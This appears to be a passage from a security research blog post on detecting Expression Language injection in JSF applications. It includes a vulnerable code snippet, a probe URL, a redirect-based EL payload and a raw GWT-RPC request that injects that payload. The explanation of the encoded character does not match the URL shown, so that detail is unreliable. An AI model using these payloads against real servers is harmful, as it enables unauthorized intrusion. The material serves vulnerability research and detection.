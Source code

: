 <p class="cn" markdown="1">I digress by demonstrating an example. Suppose we have a vulnerability in a Java Servlet Faces (JSF) application that looks like so:</p>

{% highlight java %}
<h:outputText value="${beanEL.ELAsString(request.getParameter('expression'))}" /> 
{% endhighlight %}

<p class="cn" markdown="1">An attacker could simply perform the following request:</p>

<p class="cn" markdown="1">**http://[target]/some_endpoint/vuln.jsf?expression=9%3b1**</p>

<p class="cn" markdown="1">Since a browser translates the + as a space, we encode the + so that what we are really sending is 9+1 and upon server response, if we see a value of 10 then we know that we have an expression language injection vulnerability since the math operation executed. This is the method Burp Suite uses to detect template injection vulnerabilities.</p>

<p class="cn" markdown="1">However, given our vulnerable code above, we cannot *easily* determine an expression language injection vulnerability, or could we? After experimenting with the JSF api I found some very neat functions that allow us to fully determine the presence of a EL Injection vulnerability without making outgoing HTTP requests.</p>

<p class="cn" markdown="1">The oracle documentation states that you can use the [**getExternalContext**](https://docs.oracle.com/cd/E17802_01/j2ee/j2ee/javaserverfaces/1.2/docs/api/javax/faces/context/FacesContext.html#getExternalContext()) method on the FacesContext instance. This method returns a **ExternalContext** type which can allow us to set specific reponse object properties. When I was investigating this, two functions came to mind:</p>

<div class="cn" markdown="1">
* [setResponseCharacterEncoding](https://docs.oracle.com/cd/E17802_01/j2ee/j2ee/javaserverfaces/1.2/docs/api/javax/faces/context/ExternalContext.html#setResponseCharacterEncoding(java.lang.String))
* [redirect](https://docs.oracle.com/cd/E17802_01/j2ee/j2ee/javaserverfaces/1.2/docs/api/javax/faces/context/ExternalContext.html#redirect(java.lang.String))
</div>

<p class="cn" markdown="1">Therefore, we could set the string to the following Java code:</p>

{% highlight java %}
facesContext.getExternalContext().redirect("https://srcincite.io/");
{% endhighlight %}

<p class="cn" markdown="1">...and if the response was a 302 redirect to **https://srcincite.io/** then we can confirm the code is vulnerable.</p>

#### Testing the vulnerability

<p class="cn" markdown="1">The first request we need to do is to set the session attribute **MibWidgetBeanName**</p>

{% highlight text %}
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: */*
X-GWT-Module-Base: 
X-GWT-Permutation: 
Cookie: JSESSIONID=[cookie]
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 195

6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|sendBeanName|java.lang.String|facesContext.getExternalContext().redirect("https://srcincite.io/")|1|2|3|4|1|5|6|
{% endhighlight %}
